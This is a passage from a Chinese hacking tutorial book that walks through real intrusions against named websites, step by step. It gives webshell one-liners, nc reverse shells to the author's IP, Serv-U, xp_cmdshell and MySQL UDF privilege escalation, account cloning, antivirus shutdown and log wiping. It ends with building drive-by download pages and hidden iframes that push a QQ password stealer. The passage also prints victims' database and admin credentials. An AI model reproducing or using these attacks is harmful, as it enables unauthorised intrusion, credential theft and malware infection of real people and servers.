很快通过 CMD 下监视端口我们会看到它与我们进行连接了，但是上传到服务器的 suiyimen.dll 或者别的文件，都是只有一个空壳，大小为 0KB。

看来 FTP 也不行，那么我们使用脚本上传看看。利用的是 iget.vbe。首先使用 NBSI 的“文本文件上传”功能，单击“浏览”找到我们的 iget.vbe，然后设置好需要保存的路径，我这里假设为 `c:\iget.vbe`，将其填入“保存位置”，单击“上传”，我们的 iget.vbe 就会被分解成一行一行地提交到服务器的 C 盘下了，如图 6.9。


图 6.9

iget.vbe 的主要作用是从网上下载指定文件到本机。我先把 suiyimen.dll 上传到自己的空间。上传后的访问地址为：`http://zhiyeqianqian.51web.cn/suiyimen.dll`。回到 NBSI 中，执行：`c:\iget.vbe http://zhiyeqianqian.51web.cn/suiyimen.dll c:\winnt\system32\sym.dll`，意思就是下载 `http://zhiyeqianqian.51web.cn/suiyimen.dll` 并保存到 `c:\winnt\system32\sym.dll`。

只可惜过几分钟后，残酷地发现还是没有把文件上传过去，这次入侵只能暂时先告一段落。换一个目标：`http://www.ocu.ac.kr/preliminary/register/CheckID/SearchID.asp?ID=`。这也是一个数据库与 Web 服务器不在一起的注入点，不过与前面不同的是，当我们使用 FTP 上传文件的时候，我们成功了！于是上传一个 nc.exe，本地监听 1235 端口以后，在 NBSI 中执行：

```txt
start nc.exe -e cmd.exe 58.49.187.150 1235
```

CMD 窗口里就有反应了，如图 6.11。使用同样的方式上传 mt.exe，检查过几遍之后发现它开了不少端口，但是全部都被硬件防火墙挡住了，连随意门都无法穿透！


图 6.10


图 6.11

正在郁闷的时候，无意中输入了 `net start`，发现似乎没有杀毒软件的影子。这就意味着我们可以使用灰鸽子这样的反弹型木马了！

首先使用 FTP 把灰鸽子的服务端上传到 `http://zhiyeqianqian.51web.cn/setup2.exe`，然后在 CMD shell 中使用刚才传上去的 mt.exe 去下载回来：`mt.exe -netget http://zhiyeqianqian.51web.cn/setup2.exe`，接着我们运行它，如图 6.12。


图 6.12

打开灰鸽子的客户端，将现在的 IP 地址更新到 FTP 空间，如图 6.13。


图 6.13

没过一会儿，肉鸡就自动上线了，如图 6.14。现在，怎么玩它就随你了。


图 6.14

## 6.2 DB_owner 备份数据库得到 Webshell 实例

DB_owner 用户拥有列举目录、读取注册表与备份数据库的权限。以 `http://content.mbc.co.kr/e_mbc/drama.asp?idx=106` 为例，如图 6.15。


图 6.15

打开 NBSI，找到“NB_Treelist”选项，把注入地址填进去，注入类型保留默认的“数字型”不变。首先从 C 盘开始，一个目录一个目录地浏览。当浏览到 D 盘的时候，发现有一个 www 文件夹，而里面的 `D:\www\oiju.imbc.com\` 这个文件夹引起了我的注意，如图 6.16。


图 6.16

这说明服务器上很可能有一个 `http://oiju.imbc.com`，而它的物理路径正是 `D:\www\oiju.imbc.com\`。为了确认它，从该目录里选几个文件，比如 `D:\www\oiju.imbc.com\msg_list.asp`，访问 `http://oiju.imbc.com/msg_list.asp` 发现确实存在，证明我们的猜测是正确的！现在，我们就要利用 DB_owner 的备份数据库获得 Webshell 了。

NBSI 的文件上传功能是 SA 才可以用的存储过程上传，所以我们使用 HDSI，选择“上传文件”，注入地址与注入类型 HDSI 会自动填好。

```asp
<%eval request(chr(35))%>
```

单击 HDSI 里“浏览”按钮，找到该文件，上传路径写为 `D:\www\oiju.imbc.com\hdsi.asp`，把上传方式改为“备份数据库”，单击“上传”。结果提示我们“上传不成功”，如图 6.17。


图 6.17

可是实际上我们访问 `http://oiju.imbc.com/hdsi.asp` 却成功看到文件生成了，不过却是一大堆乱码，如图 6.18。


图 6.18

这是因为备份数据库的方式决定的，但是这一堆乱码里却包含有我们的代码。如果运气不太差的话，使用海阳顶端木马客户端提交后，我们就可以得到一个非常难看却实用的 Webshell（如果你找不到输入框请多按下 TAB 键），如图 6.19。

```asp
<%eval request(chr(35))%>
```


图 6.19

当然，并不是所有时候我们都要一个目录一个目录地寻找。如果 Web 服务器与 SQL 服务器是同一个服务器的话，我们可以直接读取注册表找到虚拟目录的物理路径。方法是：在 HDSI 中进入“高级命令”选项，切换到“注册表操作”，单击“读取”就可以读出默认的虚拟目录的物理路径了，如图 6.20。


图 6.20

HDSI 中还带了一个 GetWebshell 的功能，打开后如图 6.21 所示。


图 6.21

填入注入地址与备份的物理路径，单击“backupshell”按钮，如果成功的话就可以得到一个垃圾数据稍微少一点的 Webshell 了。其他的注入工具也或多或少附带有这些功能，用法上都一样，但是 NBSI 的注册表读取功能似乎是个摆设，根本读不出数据。

### 6.3 JSP 注入实例

前阵子 NBSI 2.5 惊现江湖，偶自然也去下载了一个回来，界面变漂亮了不少，不过可惜的是稳定性不尽人意。但是下载回来的 NBSI 里，有一些“历史数据”，我看到里面有一个 `http://www.gotohz.com/lyxll/showarticles.jsp?id=111` 的地址，这不是 JSP 脚本吗？访问看看，手工在参数后加上“and 1=1”，结果正常返回，而加上“and 1=2”后，返回的页面不一样了，如图 6.22、图 6.23。


图 6.22

## 黑客零起步（Easy Hacker）


图 6.23

这说明该页面存在注入漏洞，单击 NBSI 2.5 的“检测”按钮，漫长的一分钟过去了，NBSI 却提示我们暂时没有找到漏洞，看来需要填写关键字了。

从图中我们可以知道，图 6.22 里“临安石长城一日游”这些字都是图 6.23 里没有的，那么我们就选取“临安石长”这几个作为关键字，填入关键字栏，单击“再检测”，这次出现了如图 6.24 所示的界面。数据库类型为 Oracle，接下来一样是猜解表名、列名与数据。


图 6.24

看到数据库里有些表名是 BBS 一类的东西，于是打开该站首页看看，还真的发现一个论坛。赶紧猜解那些和 BBS 有关的数据，结果看到一个用户名为 admin，密码也为 admin 的用户！试着使用它登录，居然真的是管理员，如图 6.25。


图 6.25

经过一番查看，论坛有上传的功能，所以我们到管理中心里去，找到“论坛基本变量设置”，把允许上传文件的类型增加一个 jsp，如图 6.26。


图 6.26

回到前台，发帖子时上传一个 JSP 木马（与 ASP 木马是一样的原理），这时打开帖子就看到有一张显示不出来的图片，里面的文字是“该主题有一个 jsp 类型的附件”，如图 6.27。点击它，就打开了 JSP 木马，如图 6.28。


图 6.27


图 6.28

注意，我使用的 JSP 木马是 jshell，默认密码就是 jshell。如果需要更改，请用记事本打开它，把 `private String _password = "jshell";` 这一句中的 jshell 改为其他字符，如图 6.29。


图 6.29

也可以使用默认密码登录以后，再把右边的下拉选项选为“程序配置”，然后更改密码，如图 6.30。


图 6.30

把右边的下拉框调到“文件系统”，我们可以轻易地浏览整个硬盘，而使用“系统命令”我们还可以以最高权限执行任何命令，如图 6.31、图 6.32。


图 6.31


图 6.32

注意，这个 JSP 木马在执行外部命令，比如使用 mt.exe 的时候，需要在前面加上 cmd.exe。比如：`C:\mysql\bin\mt2.exe -chkts` 就会出错，如图 6.33。


图 6.33

这时候使用 `cmd.exe /c C:\mysql\bin\mt2.exe -chkts` 就可以成功地执行命令，但是遗憾的是不能看到回显。所以建议还是首先上传一个 nc.exe，然后执行：`cmd.exe start nc.exe -e cmd.exe 58.49.187.150 1234`，其中 58.49.187.150:1234 是我们监听好的端口。这样我们就可以获得一个 CMD shell 了，再利用 JSP 木马里的文件上传功能上传一个随意门到服务器上，在 CMD shell 中执行安装命令，这台服务器就属于我们了，如图 6.34。


图 6.34

### 6.4 PHP 注入也精彩

PHP 往往都是与 MySQL 数据库搭配使用，在 MySQL 版本高于 4.0 时，我们可以利用 Union 查询来直接读取任意文件。以夜猫下载系统为例，首先在 Google 中搜索关键字：`inurl:"show-php?id=" "更新时间"`，可以搜索到很多目标系统，夜猫下载系统的界面如图 6.35 所示。打开后，首先要手工判断是否可以注入，方法是，在最后加一个单引号，看是否出错，如图 6.36。如果不出错的话，证明该系统已经屏蔽掉了单引号，往往不可以继续注入。


图 6.35


图 6.36

找到能够出错的目标以后，还要用“and 1=1”和“and 1=2”来判断。首先在参数后加上“and 1=1”，可以注入的页面往往会正常返回，然后再加上“and 1=2”，这时候页面应该出错，如图 6.37、图 6.38。


图 6.37


图 6.38

这时候我们就可以利用 PHP 下的注入辅助工具进行注入了。

#### CnSaferSI

把地址填入 CnSaferSI 后，单击第二个按钮，CnSaferSI 弹出关键字分析窗口，单击“分析”就开始判断“and 1=1”与“and 1=2”两个页面不同之处了，它会使用醒目的颜色标出来，如图 6.39。


图 6.39

单击第一处出现的不同，看到显示的内容为“红色警戒Ⅱ尤里的复仇”，从中抽取“红色警戒”四个字作为关键字就可以了，这时候单击“关闭”回到主窗口。

因为“红色警戒”四个字是出现在 1=1 页面的（刚才分析时，左边窗口为 1=1 页面，右边为 1=2 页面），所以我们把它填入关键字后，保留“在 1=1 页面”上的小勾，单击第三个按钮，开始检测。检测成功后，分析关键字与检测按钮不再可用，而右边的检测结果处也开始由问号变成分析结果，如图 6.40。


图 6.40

此时单击第四个按钮开始猜解表名，不过 CnSaferSI 在这里开始出错，不能再继续下去了。对于 JSP 的注入也是一样的，看来它还需要好好地改进了。

#### HDSI

可能大家很早就发现了 HDSI 里有 PHP 注入功能，接下来我们就来看看 HDSI 的 PHP 注入效果如何。把注入地址填到地址栏里，填写关键字“红色警戒”（HDSI 在 PHP 注入时必须填写关键字，我们可以用 CnSaferSI 来分析和选取），然后单击开始，如图 6.41。


图 6.41

过了一会儿猜出字段数为 19，并且会在 HDSI 最下方的小型浏览器中显示出一个页面，里面的内容都被数字填满了，如图 6.42。


图 6.42

在这些显示出来的数字中，任意选一个，这里我选择的是 12，将它填入“loadfile 位置”后面的小框里，填入要暴的文件，比如 `D:\www_click\software\global.php`（这是第一次出现错误的页面中暴露出来的路径和文件名），单击“确定”，如图 6.43。


图 6.43

这时候在 HDSI 的小型浏览器就会把原先显示 12 那个数字的地方用 `D:\www_click\software\global.php` 的内容来替换了，只不过 HDSI 的浏览器太小了我们看不清楚，把它的 URL 复制下来用 IE 打开，如图 6.44。


图 6.44

通过这些内容，进一步读取 `D:\www_click\software\admin\config.php` 里的代码，发现了以下信息：

```php
// 数据库信息
$dbhost = "localhost"; // 数据库主机名
$dbuser = "root"; // 数据库用户名
$dbpasswd = "clickdb"; // 数据库密码
$dbpname = "software"; // 数据库名

// 管理员用户名和密码
$admin_name = "admin"; // 管理员用户名
$admin_pass = "ad#123#min"; // 管理员密码
```

有了这些就好办了，直接访问 `http://click.suda.edu.cn/software/admin/` 登录后台，结果却提示错误，非常郁闷。不过由于本人对 PHP 也不熟悉，实在搞不清楚为什么，这次入侵也只好先到这里了。

#### kEvinSI

其实在 PHP 的注入里，kEvinSI 表现也非常优秀。以 `http://www.sars.ac.cn/log/show.php?id=115` 为例，首先使用“and 1=1”与“and 1=2”判断证实它有漏洞之后，我们要选取关键字了。访问 `http://www.sars.ac.cn/log/show.php?id=115 and 1=2` 后如图 6.45 所示。


图 6.45

由于“Warning: mysql_fetch_object(): supplied argument is not a valid MySQL result resource in /data/websites/sars/log/show.php on line 60”是在错误页面里出现的，那么我们选择其中的“mysql_fetch_object()”作为关键字填入 kEvinSI 里，如图 6.46。


图 6.46

Number 处是猜测字段数的最大值，稍微取大一点没有关系；Check 处填写关键字，后面有个选项“In False”表示该关键字出现在错误页面（and 1=2），而“In True”则表示该关键字出现在正确页面（and 1=1）。

单击那个放大镜按钮就开始扫描了，图 6.46 是扫描后的结果，我们看到它自带的微型浏览器里已经显示了一个页面，其中不少地方都是纯数字。

此时我们可以在右边的 Action 里选择我们要查看的信息，比如 Version 是查看 MySQL 的版本信息，LoadFile 就是和 HDSI 一样的文件读取功能，如图 6.47。

*NIX 的系统一般会把密码信息留在 `/etc/passwd` 这个文件中，我们保留默认的设置，单击那个检测按钮就会把 `/etc/passwd` 里的内容显示出来，如图 6.48。不过我们现在连 Windows 都还没搞熟悉，要入侵 Linux 系统就更不好说了，把这些信息保存下来改天学习了 Linux 的入侵再回头来干掉它吧。


图 6.47


图 6.48

#### PHP 注入文件读取器

这是由幻影旅团 Mix 开发的一个简单读取文件的辅助工具，仍然以上述网址为例，将其填入“PHP 注入 URL”，如图 6.49。


图 6.49

单击“返回判断字符串”，出现如图 6.50 的界面，我们可以更改其中的“and 1=1”和“and 1=2”，单击“开始提交”后，它显示返回的源码，我们还可以单击“HTML 格式预览”以网页形式来查看结果。当确定好关键字以后，将其填入“最终确定的判断字符串”，单击“完成”。


图 6.50

回到主界面，我们要确定所填的关键字是出现在正确页面还是错误页面，然后可以设置并发线程数目以增快读取速度。这里的快速读取与 kEvinSI 差不多，只不过它首先以源码的方式显示，然后可以选择以 HTML 形式打开预览，而慢速读取则是只读取指定文件的内容并显示出来，我们这里以 100 线程慢速读取演示，如图 6.51。


图 6.51

## 6.5 获取 Webshell 又一法——数据库插马

如何获得 Webshell 的方法到此，我们已经讲过了以下几种：

- 1. 上传漏洞直接上传 ASP 木马。
- 2. 使用 SQL 注入或者暴库得到管理员密码登录后台，增加允许上传文件的类型，包括 asp、php 或者是 jsp 等，然后再上传。
- 3. Access 数据库下的备份数据库（或者恢复数据库），这也需要进入后台。
- 4. SA 权限直接 echo 一句话木马到 IIS 物理路径。
- 5. DB_owner 用户 backupshell 获取 Webshell。

今天再讲一种新的方法，直接往数据库插入木马，让数据库变成我们的 Webshell。我们在暴库的时候已经见过一些站长喜欢把数据库的后缀名改为 asp 以防止下载了。可是我们知道，如果数据库文件里包含有 ASP 代码，那么我们直接访问数据库，这些 ASP 代码就会执行，这就是数据库插马的原理。我们以一款电影整站程序零茶影院为例。

首先到百度搜索关键字：“喜欢电影朋友的天堂”，如图 6.52。


图 6.52

随便点开个站后，假设是 `http://mov.9hb.com/`，那么，我们就在后面加上默认数据库的文件名 zerotea.asp，也就是 `http://mov.9hb.com/zerotea.asp`，如图 6.53。


图 6.53

这时候可能出现三种结果。第一种，页面不存在，这是管理员换了默认路径了，那么直接跳过，接着找下一个倒霉鬼；第二种，出现 500 错误，这样大多数情况下也不能利用；运气好的时候，我们会遇到现在看到的第三种情况，出现一堆的乱码，如图 6.54。


图 6.54

现在我们到首页随便找到一个电影，单击打开后，会看到有一句话：“点击报告该片有错误”。利用的就是这个功能，我们打开它后会看到如图 6.55 的画面。这里是提交错误报告的地方，在昵称处填入：`<%eval request(chr(35))%>`，其他地方随便填，单击提交后，`http://mov.9hb.com/zerotea.asp` 就包含有我们的一句话木马的代码了。


图 6.55

打开海阳顶端木马 eval 版，填入地址后，单击提交。这次看看一个特殊的海阳木马吧，如图 6.56。一堆的垃圾信息挡在前后，但是我们还是可以从页面背景颜色变成了银灰色而知道马儿已经成功执行了。按几下 TAB 键，很快会看到登录的按钮，登录进去以后，为了快速跳过那些垃圾信息，还是要用 TAB 来搞定。那么使用 FSO 的文件浏览器，上传一个正常一点的马儿上去，这个数据库的马儿还是留着到有必要的时候再用吧。


图 6.56

## 6.6 Webshell 提升权限

当我们熟练地掌握了前面提到的基本技术以后，获得一个 Webshell 已经不再是一件什么难事了。这时候我们可能更需要学习的是如何把 Webshell 的价值发挥到最大，毕竟 Webshell 的权限太低了，我们需要提升权限控制对方的整个服务器，获得肉鸡！

#### 入侵实例

最近欠钱急着找工作解决温饱问题，近日听闻腾讯在校园招聘，于是来到了 `http://www.pincn.com/index.aspx` 探听虚实，如图 6.57。


图 6.57

注册会员后，发现有个论坛，长得很像 DVBBS，如图 6.58。


图 6.58

打开发帖功能，发现可以上传文件，在该链接上右键，发现上传页面为 saveannouce_upfile.asp，于是访问 `http://bbs.pincn.com/saveannouce_upfile.asp`，结果如图 6.59。


图 6.59

这不是 DVBBS 最典型的上传漏洞页面吗？拿出心爱的 Domain，填入上传地址，单击“上传”，结果如图 6.60。


图 6.60

## Easy Hacker

提示我们“没有在本论坛上传文件的权限”。看来它验证了我们是否登录了，那我们就登录一下，使用抓包工具 WSE 把 COOKIES 抓给它试试，如图 6.61。


图 6.61

填入 COOKIES 里，再次上传，成功获得 Webshell，如图 6.62。


图 6.62

这个 DIY.asp 不太好用，所以我们上传一个海阳顶端木马上去。查看它的服务信息后，发现有 Serv-U 服务，如图 6.63。


图 6.63

Serv-U 这个服务用于本地提升权限是再好不过了。使用 FSO 文件浏览器上传一个 servuloc.exe 到服务器上，我选择的保存路径为 `E:\soft\ServU5100\su.exe`，如图 6.64。


图 6.64

接着打开 Shell.Application 程序运行器，随便输了个命令，看看有没有执行的权限，如图 6.65。成功返回系统的版本号，说明我们可以执行程序。有了执行权限就好办了，在命令处填写：`E:\soft\ServU5100\su.exe "net user test /add"`，成功地添加了一个用户名为 test、口令为空的用户！嘿嘿，这下看你还不死！


图 6.65

又因为刚才在海阳木马里看到它打开了 3389 终端服务，如图 6.66。打开远程桌面连接器连接，结果提示连不上，看来是有防火墙阻挡了！那么至少我们先想办法拿一个 CMDshell 吧。


图 6.66

首先在本地监听一个端口：`nc -vv -l -p 9876`，然后把 nc.exe 上传到服务器里，执行：`E:\soft\ServU5100\su.exe "D:\wwwroot\bbs\INC\nc.exe -e cmd.exe 58.49.187.150 9876"`，这里 `nc.exe -e cmd.exe IP port` 是把本机的 CMD.exe 发送到指定 IP 与端口，58.49.187.150 是我的 IP 地址，结果很快看到本地的 nc.exe 有反应了，得到了 CMD 下的 shell 了。这下就好办了，拿出 lcx.exe，我们要通过 3389 登录它！

```bash
nc -vv -l -p 9876
E:\soft\ServU5100\su.exe "D:\wwwroot\bbs\INC\nc.exe -e cmd.exe 58.49.187.150 9876"
```

我们在本地执行 `lcx -listen 1234 9833`，在 shell 中执行 `start c:\winnt\temp\lcx.exe -slave 58.49.187.150 1234 127.0.0.1 3389`，很快本地的 lcx 开始有数据闪动起来，我们使用远程桌面连接登录 `127.0.0.1:9833`，很快就看到了登录界面，它跟我们要用户名与密码。加一个管理员帐号现在当然没问题了，不过系统中多了一个帐号容易被发现，所以我们还是使用 mt 来查看当前管理员的密码好了。

```bash
lcx -listen 1234 9833
start c:\winnt\temp\lcx.exe -slave 58.49.187.150 1234 127.0.0.1 3389
```

用 ASP 木马上传一个 mt.exe，到 CMDshell 中执行：`mt.exe -findpass`，得到：


说明管理员用户名是 jpkjadmin，而密码是 jpkjAdmin!!，我们利用它登录就可以了。为了保险，再顺便把 Guest 帐号克隆为 jpkjadmin 以方便下次登录：`mt -clone jpkjadmin guest`，然后使用命令 `net user guest shmily`，将 Guest 用户的密码改为 shmily，万一管理员改了密码，我们还可以使用 Guest 用户来登录。

```bash
mt.exe -findpass
mt -clone jpkjadmin guest
net user guest shmily
```

上传 ASP 木马与访问 ASP 木马会在 IIS 日志里留下很多痕迹，如图 6.67。怕被管理员日后查出来吗？那就把它删掉吧！


图 6.67

首先在 3389 里依次点击“开始/程序/管理/Internet 信息服务”打开 IIS 管理器，找到我们访问的站点，在上面单击右键，选择属性，如图 6.68。在活动日志处点“属性”，如图 6.69。


从这里我们可以知道 IIS 的日志保存在 `E:\wwwlog\W3SVC4\` 下，找到该目录，直接删除 `ex051028.log`（2005 年 10 月 28 日的日志）是删除不掉的。这里我们首先把 IIS 日志保存的文件格式改一改，如图 6.70。过一会 `E:\wwwlog\W3SVC4\` 下就会以别的文件名生成新的日志，而 `ex051028.log` 这个文件就可以删除了。


其实我们登录时还有可能产生一些系统日志，不过它们可以在 CMDshell 中使用 `mt.exe` 删除，命令如下：

```bash
mt.exe -clog all
```

就删除掉所有的日志了。接下来，上传扫描器，继续入侵内网扩大成果，还是装个后门，就看你的喜好了。

## 其它提升权限的方法

##### 1. 本地溢出

其实溢出攻击里有一种叫本地溢出的，只要可以执行程序，在没有打补丁的机器上，就可以利用它得到最高权限。我们以 MS05039 漏洞为例（这个漏洞既可以远程攻击，也可以本地提升权限），得到一个 Webshell 后，我们将利用工具 `ms05039.exe` 上传到服务器上，执行 `ms05039 127.0.0.1 192.168.1.123 8888`，也就是溢出自己，然后把 shell 发送给 `192.168.1.123`。而我们早就在本机使用 `nc.exe` 监听好了 `8888` 端口了，如图 6.71。


图 6.71

##### 2. pcAnywhere 获取管理员密码

pcAnywhere 是一款著名的远程控制软件，很多管理员都喜欢使用它来管理自己的服务器，不过它有一个缺点，就是它的密码文件保存在 `C:\Documents and Settings\All Users\ApplicationData\Symantec\pcAnywhere\` 里，一般看到 `username.cif` 这样的 CIF 文件就可以把它下载回来破解了（此目录默认情况下所有人都有读的权限），如图 6.72。


图 6.72

然后打开 Domain 3.5，切换到“破解工具”处，在最下方有个破解 pcAnywhere 的功能，单击“打开文件”按钮找到下载回来的 CIF 文件，再单击读取按钮，用户名与密码就都出现了，如图 6.73。


图 6.73

这时候，我们自己安装一个 pcAnywhere，连接到肉鸡，就可以看到肉鸡的屏幕了，如图 6.74。有很多时候 pcAnywhere 的登录用户名与密码与系统帐号是一样的，这样我们就可以成功控制远程机器了。


图 6.74

##### 3. MSSQL 下 sa 用户提升权限

有的时候获得了 Webshell，我们查看 conn.asp 会发现对方使用 sa 帐户来连接数据库，如图 6.75。


图 6.75

这时候我们可以使用海阳顶端木马的“微软数据库查看/操作器”来连接数据库，如图 6.76。


图 6.76

连接字符串处是：`sql:Provider=SQLOLEDB.1;Server=localhost;User ID=sa;Password=密码;Database=数据库名;`，这些信息我们都可以在 `conn.asp` 中得到，只要填写正确，单击“提交”就可以看到数据库的内容了。不过现在我们对数据库里的东西不关心，我们只需要在“SQL 命令执行及查看”里写入：`exec master..xp_cmdshell '要执行的命令'`，并执行就可以了。

### 4. MYSQL 下 root 用户 create Function 漏洞提升权限

有的时候我们可能获得一个 PHP 的 Webshell，查看 `config.php` 等文件可以得到数据库连接信息，如图 6.77（这里使用的是 4ngel 开发的 phpspy 2006）。


图 6.77

首先上传一个 `Mix.dll` 到服务器上，这里路径为 `F:\PHP_WWW\Mix.dll`，接着单击 `SQL Query` 进入数据库操作，填入刚才获得的用户名、密码与数据库信息后，单击连接按钮进行连接数据库，如图 6.78。


图 6.78

接着依次执行以下两个 SQL 语句：

```sql
CREATE FUNCTION Mixconnect RETURNS STRING SONAME 'F:\\PHP_WWW\\Mix.dll';
select Mixconnect('192.168.1.123','1234'); /* 注意修改反连回来的IP地址和端口号 */
```

这时候监听好的端口就会收到一个系统权限的 CMDshell 了，如图 6.79（注意，MYSQL 4.1.5 及以下版本才有此漏洞）。


图 6.79

##### 5. 替换服务法

这一招在 FAT32 分区的硬盘或者是权限设置很粗糙的服务器上才比较容易奏效。这种方法的大致过程如下：拿到 Webshell 后，通过海阳顶端木马的查看服务功能，我们可以知道系统上运行着哪些服务，找到一些不重要的服务，比如 MDAEMON（一个架设电子邮箱的东西），当时遇到的肉鸡此服务对应的程序是 `D:\MDaemon\APP\MDAEMON.EXE`。由于此服务正在运行，所以我们不能删除原先的 MDAEMON.EXE，但是我们可以把它改名为 MDAEMON2.EXE，然后再上传一个配置好的木马，比如灰鸽子，放到 `D:\MDaemon\APP\` 目录下，并命名为 MDAEMON.EXE，等到服务器重新启动后，原先的 MDAEMON 服务并不知道我们已经替换掉了它的文件，就乖乖地以系统权限运行我们的灰鸽子了！

##### 6. 利用其他脚本提权

有的机器上同时支持 ASP 与 PHP，甚至是 CGI 和 JSP。由于默认情况下，php 与 cgi 或者是 jsp 等是用 Apache 启动的，它们本身就拥有系统权限。这时候我们利用 ASP 木马上传一个 PHP 木马，如果能够正常解析的话，就可以直接在 PHP 木马上以系统权限执行任何命令。

### 6.7 脚本入侵之综合运用篇——旁注

所谓旁注是指我们确定要入侵 A，可是 A 看起来很牢固，似乎没有什么常见的漏洞。此时我们考虑一下 A 所在的服务器，也许这个服务器上有上百个网站，在这上百个网站中找到任何一个可以拿到 Webshell 的，就可以尝试提升权限，控制整台服务器，再转而入侵 A。

#### 实例

我们今天的目标是 http://www.jqk.net.cn/，不过这个网站的系统都不怎么常见，打开啊 D 扫描了几轮，也没发现有注入点。看起来似乎很安全，那么我们试试看旁注吧。拿出 Domain 旁注专用利器，把 http://www.jqk.net.cn 填入最左上方的域名栏，单击那个箭头会自动解析出 IP 地址来，然后再单击“查询”按钮，左下方就开始显示这个 IP 地址上一共有多少个网站了，如图 6.80。


图 6.80

显示出来后，我们在网址上双击，Domain 就会自动打开该站，同时检测它是否存在注入漏洞。很快我们就发现 http://www.happysky365.com/ 这个站存在注入漏洞。不过在注入之前，我们使用 Domain 的“网站批量检测”功能先看看有没有上传漏洞之类的东西。

首先“载入”要查询的网址，然后选择要检测的文件名，这里直接单击“全选”，接着单击“开始检测”，如图 6.81。


图 6.81

居然发现了一个 diy.asp，也不知道是哪位高人来过却忘了打扫脚印了。在上面单击右键，打开网址我们看到确实是一个 diy.asp，如图 6.82。


图 6.82

直接利用它上传一个海阳木马到服务器上，我们就可以四处闲逛了。首先查看服务，没有 Serv-U 服务，提权的道路少了一条；开有终端服务，端口默认就是 3389。上传了几个文件，比如 nc.exe 和 mt.exe 等，很快就被杀掉，证明它的瑞星很强……没多久找到一个似乎搁置很久的 conn.asp，里面有 SA 的连接密码，如图 6.83。


图 6.83

二话不说，打开数据库连接器，把这里的密码搬出来，试了一下：

```sql
Provider=SQLOLEDB.1;Server=localhost;User ID=sa;Password=jd@));%;Database=master;
```

竟然连上了，如图 6.84。接着使用 `exec master..xp_cmdshell 'net user zyqq /add'` 添加用户也没有问题，可是我们总不能这么直接加一个用户登录吧！最好还是克隆一个账户，这样会比较隐蔽一些。可是该死的瑞星又不断作怪，干脆我们把它给干掉！


图 6.85

```sql
exec master..xp_cmdshell "net stop RsRavMon"
exec master..xp_cmdshell "net stop RsCCenter"
```

这下瑞星就相当于摆设了，再次上传 mt.exe，执行 `exec master..xp_cmdshell "C:\Tomcat4.0\bin\mt.exe -clone administrator guest"`，把 guest 克隆为 administrator，再执行 `exec master..xp_cmdshell "net user guest 123456"`，把 guest 的密码改为 123456。此时打开远程桌面连接器连接，就顺利登录了，如图 6.85。连服务器都已经拿下了，现在别忘了我们一开始的目标：http://www.jqk.net.cn/。


图 6.85

打开 IIS 管理器，找到 http://www.jqk.net.cn/ 的物理路径，结果让我们吐血！它居然与 http://www.happysky365.com/ 同在 `E:\wwwroot` 目录下，搞了半天我们都在做无用功呢！不过，这个站上有一个发送短信的平台，嘿嘿，赶紧去研究研究怎么样可以拿来免费发短信吧！

## 禁止区域

经极轴 [风况木马二共站IX舌]


## 第七章 终极较量

### ——网页木马与跨站攻击

阿剑剑这几天埋头苦干，又是暴库又是上传再加上注入，一个下午就获得了几十个 Webshell，可是能提升权限的只有一两个而已。看着手上大把大把的 Webshell，他把头转过来问欠钱：“钱兄，这些提升不了权限的 Webshell 留在手上还有什么用呢？”

“做网页木马啊！”

“对了，我想起来了，上次讲木马的时候这个东西你就没给我讲清楚，网页木马到底是怎么回事啊？”

“网页木马说白了，就是一个网页。它可以利用 IE 浏览器的一些漏洞，使浏览该网页的人自动下载并运行木马。我们平常经常要打 IE 补丁就是为了避免中招。”

“那我们为什么会去浏览这种木马网页啊？吃饱了撑着吗？”

“当然不是了，黑客们往往会自己申请一个空间，存放自己的木马。然后，把这个木马用框架的形式镶到一个正常的网页里。这样我们浏览正常网页的时候，也会自动浏览木马网页了。用具体的例子来假设一下：http://wukong.php2h.com/052.html 是我做好的一个网页木马。打个比方说我们把 www.sina.com 黑掉了，然后我们把 www.sina.com 的首页里镶入该木马，这样浏览 www.sina.com 的人就会中木马了。”

“哇！这么好玩？每天有那么多人浏览 www.sina.com，我要是让他们都中灰鸽子，这样我不就是肉鸡大户了？嘿嘿，要是放一个免杀的网游木马……”阿剑剑口水都要流出来了。

### 7.1 制作网页木马

#### 7.1.1 MS05-038 漏洞 + 框架挂马

前提条件：拥有一个稳定的空间存放木马（找一个管理员比较懒惰的 Webshell 也可以）。我用自己的空间放了一个木马（啊拉 QQ 大盗，改名为 m.exe）：http://zhiyeqianqian.51web.cn/m.exe。

使用的工具是 Zwell 提供的 ms05038.exe，它是一个 CMD 下的工具，用法是：

```bash
ms05038.exe  http://网站/木马.exe
```

运行完毕后，会在该目录下生成 zwell_ms05038.html，如图 7.1。


> 图 7.1

我们将它改个名字上传到空间上：http://zhiyeqianqian.51web.cn/038.html，现在没打补丁的人浏览了这个网页就会自动下载 http://zhiyeqianqian.51web.cn/m.exe 并自动执行。不过很少会有人这么笨的，所以我们要把它嵌到一个正常的网页里。

我们随便找一个以前入侵过的网站，使用 FSO 功能随便找个页面，在里面适当的位置加入以下代码：

```html
<iframe src="http://zhiyeqianqian.51web.cn/038.html" width="0" height="0" frameborder="0"></iframe>
```

如图 7.2。其中 src="" 双引号里的网址改为自己网页木马的完整地址，这样我们的网页木马就已经悄悄地潜伏到一个正常的网页里了。


图 7.2

刷新该网站的时候，还可以在状态栏里看到“正在打开网页：http://zhiyeqianqian.51web.cn/038.html”，如图 7.3。


图 7.3

接下来我们只需要耐心地等待别人上钩就可以得到 QQ 号了，如图 7.4。


图 7.4

#### 7.1.2 冰狐浪子超级网页木马生成器

冰狐浪子超级网页木马生成器打开后的界面如图 7.5 所示。首先把我们配置好的木马改名为 #.exe，然后覆盖原先的 #.exe，接着双击第四个文件：冰狐浪子超级网页木马生成器.jse，然后该目录下会生成文件 icyfox.js 和 icyfox.htm，最后把 icyfox.js 和 icyfox.htm 上传到你的主页空间，比如 http://zhiyeqianqian.51web.cn/icyfox.htm。


图 7.5

把这个页面插入到别的网页里去，我们的木马就运行了。但是这个生成器有个小缺点，因为它是把木马改造为 js 文件，有的时候一些加过壳或者做过特殊处理的木马被改造后会运行失败。

#### 7.1.3 icefox 木马生成器 + JS 挂马

这个木马生成器解压后如图 7.6 所示。我们运行 wymmpro.exe。它包含有两个木马，一个是 IFRAME 溢出漏洞木马，另一个是 CHM 木马。


图 7.6

对于 IFRAME 溢出漏洞的网页木马，我们只需要填入我们的木马在网上的完整路径，比如：zhiyeqianqian.51web.cn/m.exe，接下来是 IE 进程是否关闭的选择，保留默认的不关闭就可以了。

